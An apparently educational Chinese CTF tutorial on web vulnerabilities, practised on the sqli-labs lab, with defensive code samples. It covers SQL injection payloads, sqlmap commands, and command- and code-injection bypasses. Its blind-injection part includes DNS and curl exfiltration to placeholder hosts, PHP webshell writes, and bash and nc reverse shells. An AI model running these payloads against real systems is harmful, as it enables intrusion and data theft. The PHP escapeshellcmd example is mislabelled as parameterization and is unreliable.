


# 网络安全

## web 漏洞攻击

第一类——注入类：SQL 注入、命令注入、代码注入、LDAP 注入、XXE、模板注入

第二类——跨端攻击类：反射型 XSS、存储型 XSS、DOM 型 XSS

第三类——请求伪造类：CSRF、SSRF

第四类——文件类：路径遍历、文件包含、文件上传

第五类——反序列化类：PHP、Python、Java、JavaScript 等及其  JSON 库反序列化

第六类——配置与逻辑类：信息泄露、越权、会话固定、CORS 配置错误

*请原谅作者本人很多都没认真写。虽然说那些漏洞确实在CTF中不常见，但是本人真的不了解也写不出来多少。重点章节是 SQL 注入、命令注入、路径遍历、文件包含、文件上传。剩下其他的可以直接跳过，没什么技术含量的。CSRF、SSRF也是常见的但是本人会尽可能补全*

*请确保对 web 有一定了解，如若不然请先阅读我的另一篇文章《计算机扫盲》*

 ⚠️ *此处再次声明：这些漏洞在现实网络环境几乎不存在，不要在现实环境测试。*

---

常见工具吐槽：

**核心工具（必装❗）**

- **Burp Suite Professional**：Web 安全测试的超级武器，几乎什么漏洞都能探测到。但是一定要 Pro 版，否则去用 Yakit。
- **Yakit**：国产免费的小钢炮，是 Burp Suite Pro 的最强平替，轻量快速，上手飞快，适合日常测试和学习。

信息收集

- **Nmap**：信息收集界永远的神，一句 `-sV` 就能把目标裤衩都扫出来。

注入类

- **sqlmap**：SQL 注入的核弹级工具，是“一键爆库神器”。
- **Commix**：命令注入界的 sqlmap，能让远程执行命令如探囊取物。
- **Tplmap**：专治各种花里胡哨模板引擎。
- **XXEinjector**：XXE 漏洞利器，看起来像读 XML，实际上是在偷服务器家底。
- **Mustache Exploit Toolkit**：模板注入利器，让你在前端模板中玩“魔法”，执行任意代码。

跨端攻击类

- **XSStrike**：专门钻前端过滤器空子。
- **DalFox**：DOM 型 XSS 的探索者，专门追踪 JS 执行路径，让页面“裸奔”显现漏洞。
- **DOM Invader**：专门扒开浏览器前端逻辑，看 DOM XSS 藏哪儿了

请求伪造类

- **SSRFmap**：擅长把请求“反弹”到内网，让你窥探不该看的东西。

文件类

- **China Chopper（菜刀）**：一句话木马鼻祖，体积小得像根针，危险程度像颗雷。
- **AntSword（蚁剑）**：简洁，中国菜刀续作，国内 WebShell 管理基本人手一个。
- **Godzilla（哥斯拉特战版）**：猛，内存马时代的“重装特战队”，隐蔽、插件多、后渗透能力猛。
- **Dirsearch**：目录扫描界的“老黄牛”，不花哨但特别能翻后台。
- **wfuzz**：字典一挂，目录和参数全给你“地毯式轰炸”。
- **ffuf**：速度快得像在拿机枪扫网站目录。
- **DotDotPwn**：路径遍历的老牌神兵，帮你找到“上天入地”的文件漏洞。
- **Fimap**：文件包含的侦察兵，专门扫描 LFI/RFI，让文件“乖乖现形”。
- **Commix & Burp Intruder**：配合文件上传漏洞，轻松试探上传点，找到“后门入口”。

反序列化类

- **ysoserial**：Java 反序列化神器，序列化和反序列化间的“隐形通道”完全掌握。
- **PHPGGC**：PHP 反序列化的魔法书，生成 payload，远程代码执行手到擒来。
- **pickletools / python-ysoserial**：Python 反序列化探索者，帮你解析 pickle 的秘密。

配置与逻辑类

- **Nmap + Nikto**：服务器配置扫描组合拳，找错端口、过期服务、弱口令配置。
- **JWT_tool / CORS Exploiter**：专攻身份和跨域逻辑漏洞，让你轻松验证会话和权限问题。

其他大型工具

- Metasploit：太重，容易变“脚本小子启动器”。
- AWVS：容易把人扫废了，自己却不知道漏洞原理。
- Nessus：偏运维和内网，不是 Web 主战场。
- Kali 全家桶：90% 工具你一年都不会点开一次。

---

推荐配置：

**浏览器**

首选Google Chrome（谷歌），其次是Firefox Developer Edition（火狐），最后是Microsoft Edge。

**抓包**

Burp Suite Professional（Yakit）（下方是Burp插件）
- Autorize：越权测试自动化，换 Cookie 就像换身份证。
- JSON Web Tokens：JWT 一测一个不吱声。
- Hackvertor：编码绕 WAF 时像在开作弊器。
- Turbo Intruder：爆破速度快得像火神加特林。
- DOM Invader：DOM XSS 的“透视眼”。
- Logger++：请求一多，全靠它帮你捞关键包。

**信息收集**：Nmap

**目录 / 文件**：Dirsearch

**注入**：sqlmap、Commix（选装）

**XSS**：XSStrike（选装）

**反序列化类**：ysoserial（选装）、PHPGGC（选装）

**WebShell 管理**：AntSword、Godzilla

---

### 第一类：注入类

#### 1.1 SQL 注入

##### SQL注入基本顺序

**首先是信息收集。哪里可以注入。**

| 输入点类型  | 示例                                       |
| :---------- | :----------------------------------------- |
| GET参数     | `?id=1`、`?page=2`                         |
| POST参数    | 表单提交、JSON数据                         |
| Cookie      | 存储的用户标识、筛选条件                   |
| HTTP头      | `User-Agent`、`X-Forwarded-For`、`Referer` |
| 文件名/路径 | `?file=about.php`                          |

**然后再手工探测。**

不急着构造完整payload，先确认这个点"对特殊字符有反应"。进行单引号测试。

| 响应特征                                             | 判断                                   |
| :--------------------------------------------------- | :------------------------------------- |
| 数据库报错（`You have an error in your SQL syntax`） | ✅ 很可能存在注入                       |
| 页面空白/内容缺失                                    | ✅ 可能触发错误但没开报错               |
| 页面正常，无任何变化                                 | ❌ 可能安全，也可能是盲注（需进一步测） |
| 返回WAF拦截页面                                      | ⚠️ 存在防护，需绕过                     |

1\. 首先尝试联合注入和报错注入。

*有回显位置 → 联合注入；开报错 → 报错注入。*

2\. 如果上两种不行则尝试数字型注入、宽字节注入和堆叠注入。

*有回显位置但不能加闭合 → 数字型注入；存在 GBK 编码且单引号被转义 → 宽字节注入；支持多语句执行 → 堆叠注入*

3\. 最后以上都不行再用布尔盲注和时间盲注。

*有明显报错但是没有报错信息 → 布尔盲注；没有任何回显信息但是是SQL注入 → 时间盲注。*

4\. 如果 时间盲注 + 所有想到的绕过方式 都没有办法就说明sql被人写死了，只能找其他漏洞了。

##### sqli-labs

配合靶场：sqli-labs（该靶场重复性太高，这里只挑类型展开）

相关工具：sqlmap（盲注利器）、burpsuite（某些场景，如HTTP头注入）

**sqli-labs Less-1 -- 联合注入**

**步骤1：找注入点**

```text
http://localhost/sqli-labs/Less-1/?id=1  → 有回显位置
http://localhost/sqli-labs/Less-1/?id=1' → 有页面报错信息
```

可以联合注入或报错注入。

**常见闭合方式**

| 闭合类型 | 代码示例             | 注入时需输入     |
| :------- | :------------------- | :--------------- |
| 数字型   | `WHERE id = $id`     | `1 OR 1=1`       |
| 单引号   | `WHERE id = '$id'`   | `1' OR '1'='1`   |
| 双引号   | `WHERE id = "$id"`   | `1" OR "1"="1`   |
| 括号     | `WHERE id = ($id)`   | `1) OR (1=1`     |
| 混合     | `WHERE id = ('$id')` | `1') OR ('1'='1` |

Less-1、Less-2、Less-3、Less-4皆为重复题，可以练习闭合。

**步骤2：确认注入方式，开始注入**

`ORDER BY` 判断列数，然后 `UNION SELECT` 在回显位置查询。

```sql
-- 逐次增加列数，直到报错（--+ 和 # 是注释掉后面的闭合）
1' order by 1 --+
1' order by 2 --+
1' order by 3 --+

-- 假设列数为 3
-1' union select 1,2,3 --+
```

页面显示的位置（如 2、3）就是可以注入的位置。

```sql
-- 数据库名（和sql库版本）
-1' union select 1,database(),version()--+

-- 表名
-1' union select 1,table_name,3 FROM information_schema.tables WHERE table_schema='数据库名' --+

-- 列名
-1' union select 1,column_name,3 FROM information_schema.columns WHERE table_name='表名' --+

-- 数据
-1' union select 1,username,password FROM 表名 --+
```

**sqli-labs Less-5 -- 报错注入**

```text
http://localhost/sqli-labs/Less-1/?id=5  → 无回显位置
http://localhost/sqli-labs/Less-1/?id=5' → 有页面报错信息
```

不能选择联合注入，但是可以选择报错注入。（**长度限制**：报错只显示32位，超长要用`substr()`分段）

```sql
-- 数据库名
1' and updatexml(1,concat(0x7e,database()),1)--+

-- 表名
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='数据库名')),1)--+

-- 列名
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='表名')),1)--+

-- 数据
1' and updatexml(1,concat(0x7e,(select concat(列名,':',列名) from users limit 0,1)),1)--+
```

**sqli-labs Less-7 -- 布尔盲注**

```text
http://localhost/sqli-labs/Less-1/?id=7    → 无回显位置
http://localhost/sqli-labs/Less-1/?id=7')) → 有页面报错
```

无回显位置，无页面报错信息，也无任何特征。盲注无疑了，但是有页面报错，那就是布尔盲注。

```sql
-- 先看数据库长度
1')) and length(database())=8--+

-- 挨个字母猜数据库名（security）
1')) and ascii(substr(database(),1,1))=115--+ 第一个字母是s
1')) and ascii(substr(database(),2,1))=101--+ 第二个字母是e
-- ...

-- 获取表数量（4个）
1')) and (select count(table_name) from information_schema.tables where table_schema='数据库名')=4--+

-- 获取表名长度
1')) and length(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1)=4--+

-- 获取表名（猜）（emails,referers,uagents,users）
1')) and ascii(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1))=101--+

-- 获取字段个数（3字段）
1')) and (select count(column_name) from information_schema.columns where table_name='users')=3 --+

-- 获取字段名（最后是id,username,password）
1')) and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=105 --+

-- 获取数据（结果：1: Dumb:Dumb）
1')) and ascii(substr((select username from users limit 0,1),1,1))=68--+
```

**sqli-labs Less-9 -- 时间盲注**

其实就是布尔盲注外面套了个`if(xxx, sleep, 1)`

```text
http://localhost/sqli-labs/Less-1/?id=9  → 无回显位置
http://localhost/sqli-labs/Less-1/?id=9' → 无页面报错
```

什么反应都没有，试试时间盲注。

```http
http://localhost/sqli-labs/Less-1/?id=1' and sleep(5) --+
```

画面明显停顿5秒。存在sql时间盲注漏洞。

```sql
1' and if(1=1,sleep(5),1)--+
-- 判断参数构造。
1'and if(length((select database()))>9,sleep(5),1)--+
-- 判断数据库名长度

?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
-- 逐一判断数据库字符
1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
-- 判断所有表名长度

1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
-- 一判断表名
1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
-- 判断所有字段名的长度

1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
-- 逐一判断字段名。
1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
-- 判断字段内容长度

1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
-- 逐一检测内容。
```

**sqli-labs Less-11 -- POST注入**

通常是绕过登录。先在 username 这里输入 `admin'#` 加注入语句，或者是password输入 `1'#` 注入，嫌测试麻烦就两者都注入。然后其他的注入方式都是一样的。

**sqli-labs Less-18 -- HTTP头注入**

HTTP头注入比GET/POST参数注入**更难发现**，因为**浏览器不直接展示这些输入点且需要登录态**。

对于这种浏览器测试很麻烦的HTTP头注入就需要第三方代理——burpsuite拦截手注了。

HTTP头注入点：`Cookie`、`User-Agent`、`Referer`、`X-Forwarded-For`、`Host`、`Authorization`

发现方法

1\. 能看见源码的情况下是能看见所有漏洞的。

2\. 用Burp抓包，然后在目标Header后加单引号`'`（最快），或者用万能的时间盲注检测。

```http
GET / HTTP/1.1
Host: 127.0.0.1
...
User-Agent: ' AND SLEEP(5) AND ''='
Cookie: id=1 AND SLEEP(5)
X-Forwarded-For: 127.0.0.1' AND SLEEP(5) AND ''='
```

3\. sqlmap自动检测

```bash
# 级别3开始扫Header
python sqlmap.py -u "http://localhost/sqli-labs/Less-18" --cookie="id=1" --level=3

# 指定Header
python sqlmap.py -u "http://localhost/sqli-labs/Less-18" --headers="User-Agent: Mozilla/5.0"

# 从Burp请求文件自动识别
python sqlmap.py -r req.txt --level=3
```

**sqli-labs Less-21 -- 参数加密**

这种一般都是简单加密 + 非盲注的方式。否则需要 逆向解密 + 解密密钥 + 盲注脚本 + 加密算法脚本 这种的就已经不是单纯的web方向的题了。

观察加密方式，然后手注 + 简单加密一点点注入就可以得到数据。

**sqli-labs Less-23 -- 过滤绕过**

```http
http://localhost/sqli-labs/Less-23/?id=1' and '1'='1 -- 手动双向闭合
```

| 绕过场景      | 方法                            | 示例                                                 |
| :------------ | :------------------------------ | :--------------------------------------------------- |
| 过滤注释符    | 手工闭合                        | `' AND '1'='1`                                       |
| 过滤空格      | `/**/` 、 `%0a` 、 `%09` 、括号 | `union/**/select`                                    |
| 过滤 `=`      | `LIKE` 、 `<>` 、 `IN`          | `id>1 AND id<3`                                      |
| 过滤引号      | 十六进制编码                    | `where username=0x61646d696e`                        |
| 过滤 `AND/OR` | 符号替代 (`&&` `||`) 或双写     | `1 && 1=1`                                           |
| 逗号被过滤    | `JOIN` 替代 `UNION`             | `union select * from ((select 1)A join (select 2)B)` |

**sqli-labs Less-24 -- 二次注入**

存入恶意数据 → 数据库藏雷 → 调用时程序读出来拼SQL → 触发注入

通常是注册/编辑/留言等写入操作时**存进去，后面再调用时被拼接到SQL里**（例如注册 `admin’ #`），改密码的时候炸（登录并改密码，此时改的是真正的 `admin`）

查看数据库记录是否原样保存（不要转义），如果被转义就不能二次注入。

**典型场景**：注册用户名、文章标题、个人签名、收货地址、评论内容

**sqli-labs Less-29 -- 双服务器架构**

**前端服务器（Tomcat/JSP）**：充当WAF，只校验第一个参数，必须是数字。

**后端服务器（Apache/PHP）**：真正提供Web服务，处理最后一个参数。

```http
http://localhost/sqli-labs/Less-29/?id=1&id=-1' union select 1,database(),3--+
```

**sqli-labs Less-32 -- 宽字节注入**

查页面/响应头：`Content-Type: text/html; charset=gbk`

这就是宽字节注入。

```http
http://localhost/sqli-labs/Less-32/?id=-1%df' union select 1,database(),3 --+
```

**sqli-labs Less-32 -- 堆叠注入**

堆叠注入就是可以执行多个语句的SQL注入，可以进行**增删改查**所有操作。常用于：改数据、删表、写文件、调用存储过程。

```http
http://localhost/sqli-labs/Less-29/?id=-1';show tables;--+
```

但是由于回显位置有限，所以不能显示表。**任何**注入方式都可以**任意**查询。

##### sqlmap版

一把梭Less-1（性能最佳版）

```bash
python sqlmap.py -u "http://localhost/sqli-labs/Less-1/?id=1" --technique=U --prefix="'" --suffix="--+" --batch
```

**核心参数（每次都用）**

| 参数       | 作用                     | 示例                                                |
| :--------- | :----------------------- | :-------------------------------------------------- |
| `-u`       | 目标URL                  | `sqlmap -u "http://test.com/?id=1"`                 |
| `-r`       | 从HTTP请求文件读取       | `sqlmap -r req.txt`                                 |
| `--data`   | POST请求数据             | `--data="user=admin&pass=123"`                      |
| `--cookie` | 设置Cookie               | `--cookie="id=1; token=abc"`                        |
| `-p`       | 指定要测试的参数         | `-p "id,user"`（不测别的）                          |
| `--skip`   | 忽略指定参数             | `--skip=order,user`（不测试它）                     |
| --regexp   | 从响应中提取指定正则内容 | `--regexp="<title>(.*?)</title>"`（自定义数据提取） |
| `--level`  | 测试级别（1-5，默认1）   | `--level=3`（测更多HTTP头）                         |
| `--risk`   | 风险级别（1-3，默认1）   | `--risk=2`（允许更多破坏性测试）                    |

| 参数          | 作用         | 适用场景                                |
| :------------ | :----------- | :-------------------------------------- |
| `--technique` | 指定注入技术 | `--technique=BEU`（只测布尔/报错/联合） |
| `--prefix`    | 闭合前缀     | `--prefix="')"`                         |
| `--suffix`    | 闭合后缀     | `--suffix="-- -"`                       |
| `--tamper`    | 使用绕过脚本 | `--tamper=space2comment`                |

`--technique` 可选值：

| 字符 | 含义     |
| :--- | :------- |
| `B`  | 布尔盲注 |
| `E`  | 报错注入 |
| `U`  | 联合查询 |
| `S`  | 堆叠查询 |
| `T`  | 时间盲注 |

获取的信息数据

| 参数         | 作用           | 示例                          |
| :----------- | :------------- | :---------------------------- |
| `--dbs`      | 列出所有数据库 | `sqlmap -u "url" --dbs`       |
| `-D`         | 指定数据库     | `-D security`                 |
| `--tables`   | 列出表         | `-D security --tables`        |
| `-T`         | 指定表         | `-T users`                    |
| `--columns`  | 列出列         | `-T users --columns`          |
| `--dump`     | 导出数据       | `-T users --dump`             |
| `--dump-all` | 导出全部       | `--dump-all --exclude-sysdbs` |
| `--batch`    | 自动选默认选项 | 跑脚本时用，避免交互          |

性能与隐匿

| 参数              | 作用               | 示例                              |
| :---------------- | :----------------- | :-------------------------------- |
| `--threads`       | 并发线程（默认1）  | `--threads=10`                    |
| `--delay`         | 每次请求延迟（秒） | `--delay=2`（避开WAF）            |
| `--time-sec`      | 时间盲注等待秒数   | `--time-sec=5`                    |
| `--random-agent`  | 随机User-Agent     | 绕过简单UA检测                    |
| `--proxy`         | 设置代理           | `--proxy="http://127.0.0.1:8080"` |
| `--flush-session` | 清空缓存           | 改参数后重新测                    |
| `--fresh-queries` | 不使用缓存结果     | 强制重发请求                      |

tamper脚本（绕过WAF）

| tamper                 | 作用                                |
| :--------------------- | :---------------------------------- |
| `space2comment`        | 空格替换成 `/**/`                   |
| `space2plus`           | 空格替换成 `+`                      |
| `unionalltounion`      | `UNION ALL SELECT` → `UNION SELECT` |
| `charencode`           | URL编码                             |
| `charunicodeencode`    | Unicode编码                         |
| `between`              | `>` 替换成 `BETWEEN`                |
| `modsecurityversioned` | 用MySQL版本注释绕过                 |
| `randomcase`           | 随机大小写                          |

文件操作 ⚠️

| 参数           | 作用           | 条件                                    |
| :------------- | :------------- | :-------------------------------------- |
| `--os-shell`   | 获取系统shell  | MySQL需写权限                           |
| `--os-cmd`     | 执行单条命令   | 同上                                    |
| `--file-read`  | 读取服务器文件 | `--file-read="/etc/passwd"`             |
| `--file-write` | 写入本地文件   | `--file-write shell.php`                |
| `--file-dest`  | 远程写入路径   | `--file-dest="/var/www/html/shell.php"` |

基础检测（未定任何参数，最慢）

```bash
python sqlmap.py -u "http://test.com/?id=1" --batch
```

POST注入

```bash
python sqlmap.py -u "http://test.com/login.php" --data="user=1&pass=1" --batch
```

Cookie注入

```bash
python sqlmap.py -u "http://test.com/user.php" --cookie="id=1" --level=3
```

绕WAF（tamper脚本）

```bash
python sqlmap.py -u "http://test.com/?id=1" --tamper=space2comment,charencode
```

从Burp请求文件跑（burp生成的post_login.txt文件）

```bash
python sqlmap.py -r post_login.txt --batch
```

不写参数为默认参数，如果想要效率就把参数填全了。尤其是盲注，手注时找到敏感参数然后加入绕过参数以提高效率。

以下情况用sqlmap跑很难，建议自己写脚本。

| 场景           | 原因                         | 解决方案                                           |
| :------------- | :--------------------------- | :------------------------------------------------- |
| 复杂闭合       | `') OR ('` 等嵌套            | 手工确认闭合，用 `--prefix` 和 `--suffix`          |
| WAF 拦截       | 特征被识别                   | `--random-agent`、`--proxy`、`--delay`、`--tamper` |
| 非标准响应     | 无布尔差异、无时间差异       | 转手工或调整判定条件                               |
| 需要登录态     | 未携带正确 Cookie            | 用 `--cookie` 或 `-r`                              |
| CSRF Token     | 每次请求 token 变化          | 需写脚本或配合 Burp                                |
| 返回结果非标准 | 有差异但 sqlmap 不识别的字段 | 调 `--level` 或 `--string`/`--regexp` 指定特征     |

##### 防御

**原则**：**参数化 + 不使用动态拼接。永远不用动态字符串拼接构造SQL语句**。

**用预处理语句 + 参数绑定。**

**防死写法1（PDO + 预处理语句）**：

```
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
```

**防死写法2（MySQLi + 预处理）**：

```
$stmt = $mysqli->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $_GET['id']);
$stmt->execute();
```

*⚠️ 不要用 `mysqli_real_escape_string`，它不是防死的，只转义部分字符。*

**Python**

**防死写法1（参数化查询）**：

```python
cursor.execute("SELECT * FROM users WHERE id = %s", (id,))
```

**ORM（更推荐）**：

```python
User.objects.filter(id=id)
```

**Java**

**防死写法（PreparedStatement）**：

```java
PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
ps.setInt(1, id);
ResultSet rs = ps.executeQuery();
```

**Node.js**

**防死写法（参数化）**：

```javascript
connection.query("SELECT * FROM users WHERE id = ?", [id], callback);
```

**ORM（Sequelize）**：

```javascript
User.findAll({ where: { id: id } });
```

**Go**

**防死写法（占位符）**：

```go
db.Query("SELECT * FROM users WHERE id = ?", id)
```

**Ruby**

**防死写法（占位符）**：

```ruby
User.where("id = ?", id)
```

**Rails ORM**：

```ruby
User.find_by(id: id)
```

---

#### 1.2 命令注入

相关工具：burpsuite（某些场景）

速查 Linux 命令请看我的另一篇文章《Linux 命令》

##### 信息收集

首先是信息收集。哪里可以执行系统命令

**关键**：只要参数值最终被拼接到系统命令里，就可能存在命令注入。

最常见的是 `ping` ，也可能是 `nslookup`、`traceroute`、`dig`、`grep`、`cat`、`tar` 等。这些注入方式及代码都是一样的。

判断命令注入：`;` 、`|`、 `&` 、`&&`、 `||`（终止当前命令作用，然后去执行后面的命令。如果回显用户即成功。）

```bash
ping 127.0.0.1;whoami
```

如果以上常用的被过滤了，试试以下的绕过。

| 方式                   | 符号         | 说明                                    |
| :--------------------- | :----------- | :-------------------------------------- |
| 换行符/回车符          | `%0a`/`%0d`  | URL编码的换行，在某些解析中等于命令结束 |
| 命令替换（反引号）     | \`whoami\`   | 里面命令执行完结果当参数                |
| 命令替换（现代）       | `$(whoami) ` | 同上，更规范                            |
| 换行二次编码           | `%250a`      | WAF 只解码一次时                        |
| 直接换行（HTTP请求中） |              | 修改原始请求包插入 `\n`                 |
| 利用已有参数闭合       |              | 不引入新符号，利用参数值自然结束        |
| 文件描述符重定向       |              | `>&2` 等不依赖分隔符，需辅助外带数据    |

如果输入什么都没有反应，可能是需要闭合干扰命令（` > /dev/null`）

输入：`8.8.8.8; whoami`

```bash
ping -c 4 8.8.8.8; whoami > /dev/null # 执行了，但输出被扔进 /dev/null，页面没有输出
```

**解决1**：不让重定向生效（闭合）

```text
8.8.8.8; whoami > /dev/tty
8.8.8.8; whoami 2>&1
```

执行：

```bash
ping -c 4 8.8.8.8 > /dev/null; whoami > /dev/tty
```

**解决2**：不依赖回显

```text
8.8.8.8; whoami | curl http://服务器地址
```

**解决3**：用万能方法——延时判断

时间盲注在命令这里依然是万能的。

当可以成功地进行注入命令时，进行下一步：找到过滤并绕过。

##### 命令注入绕过

**1. 绕过“空格过滤”**

| 替代方式     | 示例 Payload             | 说明                                     |
| :----------- | :----------------------- | :--------------------------------------- |
| `${IFS}`     | `cat${IFS}/tmp/flag.txt` | IFS = Internal Field Separator           |
| `$IFS`       | `cat$IFS/tmp/flag.txt`   | 同上，但有时不解析，加 `${}` 更稳        |
| `{cmd,arg}`  | `{cat,/tmp/flag.txt}`    | 花括号，逗号分隔                         |
| `%09`（Tab） | `cat%09/tmp/flag.txt`    | URL编码的 Tab                            |
| `%20`        | `cat%20/tmp/flag.txt`    | URL编码的空格                            |
| `<` 或 `<>`  | `cat</tmp/flag.txt`      | 输入重定向                               |
| `<<<`        | `cat<<</tmp/flag.txt`    | 将后面的字符串作为标准输入传给前面的命令 |

**2. 绕过“关键字过滤”**

方法1：换词

`cat`、`tac`、`more`、`head`、`tail`、`nl`、`less`、`od`、`xxd`、`base64`、`rev`

方法2：通配符

```bash
# /tmp/flag.txt
cat /???/flag.txt

# flag.txt
cat /???/fla?.txt
cat /*/f*
cat /???/????.???
```

方法3：反斜杠分词

```bash
c\at /tmp/fl\ag.txt
```

方法4：引号/双引号

```bash
c''at /tmp/flag.txt
c""at /tmp/flag.txt
"c"at /tmp/flag.txt
```

方法5：命令拼接（`echo` + 管道）

```bash
# 用 echo 输出命令，传给 bash
echo cat /tmp/flag.txt | bash
echo "cat /tmp/flag.txt" | sh
sh<<<cat /tmp/flag.txt
```

*很多黑名单只拦“独立的命令”，不拦字符串内的单词。*

方法6：环境变量拼接

```bash
# 从环境变量里取字母拼成 cat
X=$'c';Y=$'at';$X$Y /tmp/flag.txt
```

 ↓ 刁钻 ↓

方法7：命令拼接 + 加密（比较稳）

```bash
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | sh
```

方法8：利用 `awk`、`sed`、`grep`、`sort`、`uniq`、`tee`

```bash
awk '//' /tmp/flag.txt
awk '{print}' /tmp/flag.txt

sed -n p /tmp/flag.txt

grep '' /tmp/flag.txt

sort /tmp/flag.txt

uniq /tmp/flag.txt

tee /tmp/flag.txt
```

方法9：利用 `xargs`、`find`（只读文件不递归）、`cp` 到 stdout（部分系统）

```bash
xargs -a /tmp/flag.txt

find . -maxdepth 0 -exec cat {} /tmp/flag.txt \;
find /tmp/flag.txt -exec cat {} \;

cp /tmp/flag.txt /dev/stdout
```

**3. 绕过“无字母数字”**

```bash
</???/??????.???
```

`/???` 匹配 `/tmp`，`/??????.???` 匹配 `flag.txt` → 整个变成 `/tmp/flag.txt`

`< /tmp/flag.txt` 表示“把这个文件内容作为标准输入”。

```bash
* /???/??????.???
```

**`*` 先展开**，

`*` 匹配当前目录下所有**非隐藏文件名**。

假设当前目录只有一个文件叫 `cat`（或者 `sh`、`ls` 等），`*` 就会变成 `cat`。

整体变成 `cat /tmp/flag.txt`。

前提条件：当前目录下必须有一个可执行文件且这个文件能读文件（如 `cat`、`more`、`ls`、`head` 等）。

##### 命令盲注

```bash
; if [ -f /tmp/flag.txt ]; then sleep 5; fi
; if [ $(cat /tmp/flag.txt | cut -c 1) = 'f' ]; then sleep 5; fi
```

但效率极低，实战很少这样猜。

1\. 写文件 + 回读

**前提**：在已知有可写目录的前提下

```bash
; cat /tmp/flag.txt > /var/www/html/flag.txt
```

2\. DNS 外带（最长 255 字符）

```bash
; nslookup $(whoami).your-dnslog.com
```

打开 DNSlog 平台 [DNSLog Platform](http://www.dnslog.cn/)，能看到 `www-data.your-dnslog.com` 的解析请求。

3\. HTTP 外带（无长度限制）

**前提**：目标能联网，能访问你的 IP。

先在自己的服务器上起监听：`nc -lvnp 8080`

```bash
; curl http://your-server:8080/$(cat /tmp/flag.txt | base64)
```

目标机器执行 curl，把 flag 内容经过 base64 编码（避免特殊字符截断）发过来。

4\. 命令上传webshell

**前提**：在已知有可写目录的前提下

```bash
; echo '<?php eval($_POST[cmd]);?>' | tee /var/www/html/shell.php
```

没有回显，但写完后你直接访问 `/shell.php`，用蚁剑/菜刀连接，就能执行命令（此时有回显了）。

5\. 反弹 Shell

**前提**：目标能访问你的 IP / 端口

```bash
; bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
; nc -e /bin/sh 10.0.0.1 4444
```

##### 防御

**原则**

1\. **不拼**：永远不要用字符串拼接构造系统命令。

2\. **白名单**：参数只能是预设值，不接受任意输入。

3\. **换语言**：用自带API替代系统调用。

**PHP**

**防死写法1（白名单）**：

```php
$allowed = ['8.8.8.8', '1.1.1.1', '114.114.114.114'];
if (!in_array($_GET['ip'], $allowed)) {
    die('invalid');
}
system("ping -c 4 " . $_GET['ip']);
```

**防死写法2（参数化，PHP7.4+）**：

```php
$cmd = escapeshellcmd($_GET['ip']);
system("ping -c 4 " . $cmd);
```

**防死写法3（不用系统命令）**：

```php
// 用PHP原生Socket替代ping
$socket = socket_create(AF_INET, SOCK_RAW, 1);
// ... 不展开，总之不要调system
```

**Python**

**防死写法1（subprocess + list参数）**：

```python
import subprocess
ip = request.GET['ip']
# 用列表传参，subprocess不会解析shell语法
subprocess.run(["ping", "-c", "4", ip])
```

**防死写法2（shlex.quote）**：

```python
import shlex
ip = shlex.quote(request.GET['ip'])
os.system(f"ping -c 4 {ip}")
```

**Java**

**防死写法（ProcessBuilder + 列表）**：

```java
String ip = request.getParameter("ip");
ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", ip);
pb.start();
```

**Node.js**

**防死写法（exec + 转义库）**：

```javascript
const { exec } = require('child_process');
const escape = require('shell-escape');
const ip = req.query.ip;
exec(`ping -c 4 ${escape([ip])}`);
```

**防死写法（execFile）**：

```javascript
const { execFile } = require('child_process');
execFile('ping', ['-c', '4', req.query.ip]);
```

---

#### 1.3 代码注入

| 语言                  | 危险函数                                                     |
| :-------------------- | :----------------------------------------------------------- |
| PHP                   | `eval`、`assert`、`preg_replace(/e)`、`create_function`、`include`/`require`（文件包含也算代码注入的一种） |
| Python                | `eval()`、`exec()`、`compile()`、`execfile()`                |
| JavaScript（Node.js） | `eval()`、`new Function()`、`setTimeout`/`setInterval` 字符串参数 |
| Java                  | `ScriptEngineManager` + `eval`（部分场景）                   |
| Ruby                  | `eval`、`instance_eval`、`class_eval`                        |

主要分两种类型。一种是达到题目要求后就自动读取 flag；另一种是拿到一个可交互的 shell 自行获取 flag，需反弹 / 写  Webshell / 内存马（WebLogic 等）。

##### 读取 flag 类

**已知代码注入点（如 `eval($_GET['a'])`），但无系统命令执行函数。**

解法：用代码注入点执行文件读取。

**PHP**

```php
?a=print(file_get_contents('/flag'));
?a=show_source('/flag');
?a=readfile('/flag');
?a=include('/flag');   // flag 是文本就直接输出
```

**Python**

```python
?code=print(open('/flag').read())
```

**Node.js**

```js
?code=require('fs').readFileSync('/flag','utf8')
```

##### GetShell 类（代码注入点 + 需要系统权限）

**方法 1：写入 Webshell（有 Web 路径可写）**

```php
?a=file_put_contents('/var/www/html/shell.php','<?php eval($_POST[cmd]);?>');
```

然后蚁剑/菜刀连接 `/shell.php`。

**方法 2：反弹 Shell（目标能出网）**

